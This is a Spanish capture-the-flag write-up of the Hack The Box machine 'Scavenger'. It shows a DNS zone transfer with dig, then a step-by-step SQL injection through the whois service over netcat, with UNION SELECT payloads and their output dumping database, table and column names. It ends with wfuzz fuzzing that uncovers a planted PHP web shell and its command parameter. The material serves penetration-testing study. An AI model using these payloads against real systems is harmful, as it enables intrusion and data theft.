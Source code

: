 ## Evaluacion de vulnerabilidades {-}

### Ataque de transferencia de zona {-}

Para hacer ataques de transferencia de zona, utilizamos la herramienta **Dig** (que no hay que confundir con Dick ;)...)

1. Controlar que la resolucion de dominio funciona

    ```bash
    dig @10.10.10.155 supersechosting.htb
    ```

1. Como la resolucion funciona vamos a transmitir peticiones dns

    ```bash
    dig @10.10.10.155 supersechosting.htb ns
    dig @10.10.10.155 supersechosting.htb mx
    ```

1. Ejecutamos el ataque de transferencia de zona

    ```bash
    dig @10.10.10.155 supersechosting.htb axfr
    ```

Aqui vemos que es vulnerable y vemos unos dominios 

    - root.supersechosting.htb
    - ftp.supersechosting.htb
    - whois.supersechosting.htb
    - www.supersechosting.htb
    - mail1.supersechosting.htb
    - ns1.supersechosting.htb

Los añadimos al `/etc/hosts`

```{r, echo = FALSE, fig.cap="hosts despues del domain transfer attack", out.width="90%"}
    knitr::include_graphics("images/scavenger-hosts2.png")
```

Lo miramos con firefox y el host `www.supersechosting.htb` nos muestra algo pero sigue siendo muy poca cosa.

#### Whois {-}

Como el puerto 43 esta abierto. podemos intentar conectar con la maquina para entablar peticiones whois.

```bash
nc 10.10.10.155 43
EEEE
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
% This query returned 0 object
```

Como vemos que MariaDB esta por detras intentamos ponerle una comilla

```bash
nc 10.10.10.155 43
'
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB...
```

### SQL Injection por Whois {-}

Como el mensaje nos da `the right syntax to use near "''")` ya vemos como podemos montarnos el ataque.

```bash
nc 10.10.10.155 43
') ORDER BY 100#
#Output
Unknown column '100' in 'order clause'
```

Como vemos que no puede ordenarnos la query por la columna 100 quiere decir que no hay 100 columnas. Investigamos 
para encontrar cuantas columnas hay.

```bash
nc 10.10.10.155 43
') ORDER BY 4#
#Output
Unknown column '4' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 3#
#Output
Unknown column '3' in 'order clause'

nc 10.10.10.155 43
') ORDER BY 2#
#Output
% This query returned 0 object
```

Ya vemos aqui que hay dos columnas. Podemos aplicar un **UNION SELECT** para ver las etiquetitas a traves de las cuales
podemos injectar los datos con queries.

```bash
nc 10.10.10.155 43
') union select 1,2#
#Output
% This query returned 1 object
1
```

Vemos aqui que injectaremos por la data 1.

1. Qual es la base de datos

    ```bash
    nc 10.10.10.155 43
    ') union select database(),2#
    #Output
    % This query returned 1 object
    whois
    ```

1. Qual es la version

    ```bash
    nc 10.10.10.155 43
    ') union select version(),2#
    #Output
    % This query returned 1 object
    10.1.37-MariaDB-0
    ```

1. Qual son las tablas de la base de datos whois

    ```bash
    nc 10.10.10.155 43
    ') union select table_name,2 from information_schema.tables where table_schema = "whois"#
    #Output
    % This query returned 1 object
    customers
    ```

1. Qual son las columnas de la tabla customers

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers"#
    #Output
    % This query returned 3 object
    iddomaindata
    ```

    Aqui podria ser turbio y puede ser mejor de enumerar columnas por columnas

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 0,1#
    #Output
    % This query returned 1 object
    id

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 1,1#
    #Output
    % This query returned 1 object
    domain

    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers" limit 2,1#
    #Output
    % This query returned 1 object
    data
    ```

1. Enumerar lo que hay a dentro de la columna domain

    ```bash
    nc 10.10.10.155 43
    ') union select domain,2 from customers#
    #Output
    % This query returned 4 object
    supersechosting.htbjustanotherblog.htbpwnhats.htbrentahacker.htb
    ```

    Aqui tambien se podria hacer un limit 0,1 1,1 etc...


Ya podemos añadir estos dominios en el `/etc/hosts`.

```{r, echo = FALSE, fig.cap="hosts despues del sqli", out.width="90%"}
    knitr::include_graphics("images/scavenger-hosts3.png")
```

Aqui ya intentamos conectar a estos nuevos dominios con Firefox pero sigue siendo lo mismo. Intentamos hacer nuevamente ataques 
de zonas con estos nuevos dominios

### Ataque de transferencia de zona Part 2 {-}

```bash
dig @10.10.10.155 justanotherblog.htb axfr
dig @10.10.10.155 pwnhats.htb axfr
dig @10.10.10.155 rentahacker.htb axfr
```

El ultimo dominio nos muestra un dominio turbio `sec03.rentahacker.htb`. Lo añadimos nuevamente en el `/etc/hosts` y por firefox
nos conectamos. Por fin algo nuevo.

Esta pagina nos hace pensar que gente ya a hackeado la pagina por otros *Haxxors*. Si es el caso, fuzzeamos la pagina.

### Web Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ
```

Aqui hay un poco de todo. Intentamos fuzzear por archivos **PHP**

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ.php
```

Ya encontramos un fichero **shell.php**. Visitamos la pagina por firefox y efectivamente parece una shell pero no tenemos el nombre
del comando usado para ejecutar los comandos. Lo buscamos con **WFUZZ** diciendole de ocultar las respuestas que retornan 0 palabras.

```bash
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/shell.php?FUZZ=whoami
```

encontramos el comando `hidden`




